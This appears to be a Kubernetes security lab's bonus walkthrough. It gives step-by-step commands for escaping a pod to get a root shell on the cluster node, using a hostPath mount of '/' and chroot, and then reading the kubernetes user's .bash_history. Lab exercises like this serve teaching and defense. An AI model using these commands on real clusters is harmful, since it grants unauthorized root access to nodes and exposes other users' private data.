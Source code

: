 # Bonus Walkthroughs

## Challenge 1

Get a root shell on the `cluster` `node` again. Find out the image name that was last run directly with docker commands by the `kubernetes` user.

1. Create a "hostpath volume mount" `pod` manifest.

    ```console
    cat > hostpath.yml <<EOF
    ---
    apiVersion: v1
    kind: Pod
    metadata:
      name: hostpath
    spec:
      containers:
      - name: hostpath
        image: busybox:latest
        command:
          - sleep
          - "86400"
        volumeMounts:
          - name: rootfs
            mountPath: /rootfs
      restartPolicy: Always
      volumes:
        - name: rootfs
          hostPath:
            path: /
    EOF
    ```

1. Create the `pod` that mounts the host filesystem's `/` at `/rootfs` inside the container.

    ```console
    kubectl apply -f hostpath.yml
    ```
   
1. Use `kubectl exec` to get a shell inside the `hostpath` `pod` in the `default` `namespace`.

    ```console
    kubectl exec -it hostpath /bin/sh
    ```
    
1. Use the `chroot` command to switch the filesystem root to the `/rootfs` of the container and run a `bash` shell.

    ```console
    chroot /rootfs /bin/bash
    ```

1. Navigate to the home directory of the `kubernetes` user on the host filesystem, and examine the shell history for the image that was run manually with a `docker run` invocation.

    ```console
    cd /home/kubernetes
    ls
    ```

    ```console
    cat .bash_history
    ```

1. Exit from the `chroot` shell.
    
    ```console
    exit
    ```
1. Exit from the `kubectl exec` into the `pod`.
    
    ```console
    exit
    ```

1. Clean up after our `pod` escape.
    
    ```console
    kubectl delete -f hostpath.yml
    ```

